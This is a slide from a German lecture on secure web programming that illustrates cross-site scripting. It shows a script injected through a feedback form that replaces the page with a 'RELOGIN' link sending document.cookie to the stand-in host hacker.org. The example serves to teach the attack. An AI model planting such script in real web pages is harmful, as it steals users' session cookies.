

Überblick
# CSS (XSS), Cross-Site-Scripting
Feedback-Form
<script>
	document.getElementsByTagName('body')[0].innerHTML =
		‘Please <a url=http://hacker.org?’ + document.cookie + ‘>RELOGIN</a>.’;
</script>
Webseite
Please RELOGIN.

Sichere Web-Programmierung
14.07.2021
15